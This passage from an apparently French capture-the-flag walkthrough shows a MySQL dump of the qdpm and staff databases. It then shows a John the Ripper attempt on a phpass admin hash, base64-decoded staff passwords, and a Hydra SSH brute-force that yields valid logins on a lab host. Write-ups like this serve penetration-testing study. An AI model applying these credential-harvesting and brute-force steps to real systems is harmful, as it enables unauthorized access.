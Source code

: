 ```plain
| information_schema |
| mysql              | 
| performance_schema |
| qdpm               | 
| staff              |
| sys                |
+--------------------+
6 rows in set (0,01 sec)
```

Je ne vais pas me taper l'inspection de toutes les dbs et tables manuellement alors je dumpe les dbs qui m'intéressent en SQL :  

```bash
$ mysqldump -u qdpmadmin -h 127.0.0.1 -P 4444 -p qdpm > /tmp/qdpm.sql
```

Il n'y a plus qu'à chercher les occurrences de *INSERT* dans le dump. Celle-ci est intéressante :  

```plain
INSERT INTO `configuration` VALUES (1,'app_administrator_email','admin@localhost.com'),(2,'app_administrator_password','$P$EmesnWRcY9GrK0hDzwaV3rvQnMJ/Fx0'),
```

A priori le hash est au format phpass et on peut tenter de le casser de cette manière :  

```plain
$ john --format=phpass --wordlist=rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 65536 for all loaded hashes 
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Toutefois ça ne semble mener nul part. Je passe à la base *staff* :  

```plain
INSERT INTO `login` VALUES (1,2,'c3VSSkFkR3dMcDhkeTNyRg=='),(2,4,'N1p3VjRxdGc0MmNtVVhHWA=='),(3,1,'WDdNUWtQM1cyOWZld0hkQw=='),(4,3,'REpjZVZ5OThXMjhZN3dMZw=='),(5,5,'Y3FObkJXQ0J5UzJEdUpTeQ==');
INSERT INTO `user` VALUES (1,1,'Smith','Cyber Security Specialist'),(2,2,'Lucas','Computer Engineer'),(3,1,'Travis','Intelligence Specialist'),(4,1,'Dexter','Cyber Security Analyst'),(5,2,'Meyer','Genetic Engineer');
```

Je décode les base64, rassemble les noms d'utilisateurs (avec et sans majuscules) dans un fichier, les pass dans un autre et je bruteforce SSH avec ces informations :  

```plain
$ hydra -L /tmp/users.txt -P /tmp/passwords.txt  ssh://192.168.2.9
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-23 12:52:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:8/p:4), ~2 tries per task 
[DATA] attacking ssh://192.168.2.9:22/ 
[22][ssh] host: 192.168.2.9   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.2.9   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-23 12:52:13
```
